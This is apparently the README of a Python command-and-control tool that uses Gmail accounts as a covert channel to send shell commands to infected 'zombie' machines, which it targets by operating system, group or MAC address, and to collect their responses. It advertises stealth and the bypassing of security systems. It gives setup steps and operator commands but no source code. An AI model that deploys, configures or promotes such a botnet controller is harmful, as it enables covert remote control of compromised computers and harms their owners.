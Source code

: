 Sealth Gmail C2 2024 Ready

## Introduction
The project consists of a completely stealthy C&C (Command and Control) solution with a Client/Server architecture. 
The project is written in Python and also works after Google's policy updates.
Read my Article about the project on redhotcyber.com(You will need to translate it) :
https://www.redhotcyber.com/post/come-realizzare-un-command-control-utilizzando-gmail-in-16-steps-per-bypassare-qualsiasi-sistema-di-sicurezza/


## Table of Contents

1. [Introduction](#introduction)
2. [Server Features](#serverfeatures)
3. [Client Features](#clientfeatures)
4. [Requirements](#requirements)
5. [Installation](#installation)
6. [Configuration](#configuration)
7. [Usage](#usage)


## Server Features

- Send Commands to Zombies
- Sending Filter (Send only to Windows Machines)
- Sending Filter (Send only to Linux Machines)
- Broadcast Communication
- Multicast Communication (Group must be specified)
- Unicast Communication (Mac address must be specified)
- Get Responses from zombies

## Client Features
- Receive commands from C&C Servers
- Send commands feedback to C&C Servers

## Requirements

- you ought to install Python3
- you need to install modules listed in requirements.txt

## Installation

#Install Requirements
  Once you cloned repository you have to install requirements listed in requirements.txt
  You should use this command: pip install -r requirements.txt

## Configuration
#Create two gmail account
  In order to use the solution you need to create two gmail accounts. These two need to be personal accounts.

#Generate Password app
  Follow official google guide to generate a password-app for both the two gmail account you created before.
  Link: https://support.google.com/mail/answer/185833?hl=en

#Put password app into the code
  Copy the password app you created in the previous step and paste it in either the client or the server script.

## Usage
Server.Py:

Command Example 1 -> Send "dir" command to all windows zombie

python3 Server.py -c dir -o windows -t broadcast


Commad Example 2 -> send "ifconfig" command to all linux zombie

python3 Server.py -c ifconfig -o linux -t broadcast


Commad Example 3 -> send "ifconfig" command to linux zombie into the phoenix group

python3 Server.py -c ifconfig -o linux -t multicast -g phoenix_group


Commad Example 4 -> send "ifconfig" command to a defined linux machine

python3 Server.py -c ifconfig -o linux -t unicast -m <mac_address>


Commad Example 5 -> Get Responses from zombies

python3 Server.py -c update

Client.Py:

No commands required, it is plug and play, just start it.



